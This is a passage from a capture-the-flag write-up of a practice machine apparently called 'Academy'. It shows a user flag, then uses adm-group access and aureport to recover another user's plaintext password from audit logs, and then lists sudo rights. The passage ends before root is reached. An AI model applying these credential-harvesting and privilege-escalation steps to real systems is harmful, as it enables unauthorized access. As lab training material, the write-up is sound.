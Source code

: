 
    0 updates can be installed immediately.
    0 of these updates are security updates.

    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


    Last login: Wed Nov  11 13:35:52 2020 from 10.10.14.20
    $ cat user.txt
    c3a5e57a709f0c1bdc6874b9ad7af1b1

# Root

## lateral movement

Our user is in the `adm` group. We can run `bash` to have a better shell.

$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)

According to GNU/Linux [documentation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)
this group has access to `/var/log/` but there is nothing of interest there. We
also have access to the `aureport` command and list the `tty` access containing
`mrb3n` password.

    :::text
    cry0l1t3@academy:/var/log$ aureport --tty

    TTY Report
    ===============================================
    # date time event auid term sess comm data
    ===============================================
    Error opening config file (Permission denied)
    NOTE - using built-in logs: /var/log/audit/audit.log
    1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
    2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
    3. 08/12/2020 02:28:24 89 0 ? 1 sh "whoami",<nl>

## Composer

We switch user `su` to our new `mrb3n` user and list our sudo persmission. We
have sudo access to `composer`.

    :::text
    cry0l1t3@academy:/var/log$ su mrb3n
    Password:
    $ bash
    mrb3n@academy:/home$ id
    uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
    mrb3n@academy:/home$ sudo -l
    [sudo] password for mrb3n:
    Matching Defaults entries for mrb3n on academy:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
